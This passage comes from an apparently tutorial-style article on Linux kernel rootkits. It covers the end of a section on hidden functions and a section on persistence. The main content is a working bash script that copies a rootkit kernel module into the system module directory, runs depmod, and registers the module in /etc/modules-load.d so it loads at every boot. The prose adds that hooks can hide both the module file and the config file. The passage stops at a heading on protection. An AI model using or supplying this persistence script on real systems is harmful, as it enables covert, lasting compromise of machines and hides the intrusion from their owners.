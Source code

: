  And that's it, hidden function!

# 7. Persistence

I will show a good persistence method using "/etc/modules-load.d/".

```bash
#!/bin/bash

if [ "$(id -u)" -ne 0 ]; then
    echo "This script must be run as root."
    exit 1
fi

read -p "Enter the full path to the *.ko: " ROOTKIT_PATH

if [ ! -f "$ROOTKIT_PATH" ]; then
    echo "Error: '$ROOTKIT_PATH' was not found."
    exit 1
fi

read -p "Enter the name of the rootkit (without .ko): " ROOTKIT_NAME

CONF_DIR="/etc/modules-load.d"
MODULE_DIR="/usr/lib/modules/$(uname -r)/kernel"

echo "Copying $ROOTKIT_PATH to $MODULE_DIR..."
mkdir -p "$MODULE_DIR"
cp "$ROOTKIT_PATH" "$MODULE_DIR/$ROOTKIT_NAME.ko"

echo "Running depmod..."
depmod

echo "Configuring the module to load on startup..."
echo "$ROOTKIT_NAME" > "$CONF_DIR/$ROOTKIT_NAME.conf"

echo "$ROOTKIT_NAME will be loaded automatically at startup."
```

This script essentially makes an LKM load automatically whenever the system is started. It copies the module to the directory '/usr/lib/modules/$(uname -r)/kernel' and makes the necessary configuration to have it loaded at boot by modifying configuration files in '/etc/modules-load.d'. This way, the rootkit will be loaded every time the system restarts.

And, of course, if you go to the directory '/usr/lib/modules/$(uname -r)/kernel', you will find the .ko file of your rootkit there. But that’s not the main concern, because it’s possible to implement a hook to hide the rootkit's name, and even if you go to this directory, the file will be invisible. The same applies to '/etc/modules-load.d/'.

# 8. Protecting
